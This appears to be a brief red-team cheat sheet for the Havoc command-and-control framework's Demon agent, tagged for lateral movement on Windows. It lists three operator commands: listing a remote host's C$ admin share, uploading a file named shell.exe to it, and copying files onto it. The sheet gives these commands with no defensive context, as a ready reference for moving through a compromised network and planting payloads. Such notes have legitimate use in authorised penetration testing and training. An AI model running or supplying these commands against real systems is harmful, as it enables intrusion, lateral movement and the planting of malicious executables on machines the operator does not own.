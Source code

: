 # Havoc

Search Tag(s): #lateral-movement #havoc #windows

## 01 - List Files and Directories

```
Demon » dir \\<IP>\c$
```

## 02 - Upload Files

```
Demon » upload /path/to/shell.exe \\<IP>\c$\shell.exe
```

## 03 - Copy Files Remotely

```
Demon » cp /path/to/file.txt \\<IP>\C$\copied_file.txt
```